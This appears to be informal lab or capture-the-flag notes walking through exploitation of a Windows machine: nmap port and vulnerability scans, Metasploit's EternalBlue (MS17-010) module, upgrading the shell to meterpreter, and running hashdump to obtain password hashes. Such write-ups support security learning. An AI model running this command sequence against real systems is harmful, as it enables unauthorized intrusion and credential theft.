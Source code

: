 -  First , to find open ports i used ` nmap -sS -T4 Target_ip `
-  After this i had to find the vulnerabilities
- Now to find if any vulnertanilities are there in the sytem use the following command ` nmap -sS --script=vuln target_ip `
- Search for the vuln ` search ms17_010 ` , after this , use the exploit ` use exploit/windows/smb/ms17_010_eternalblue `
- use ` show options ` and set the required options 
- After this do    `CNTRL + Z ` and run the session in thee background , what u do is ` show sessions ` and then d the below
- Now, once i get this , if i want to esalate to meterpreter , use the following post ` use post/multi/manage/shell_to_meterpreter `, then show options  and  set it
- Sessions , LHOST and all .
- once u get escalted to meterpreter , then u do ` getuid` and then using `hashdum` u will get the required , password
- Now using system command u can move around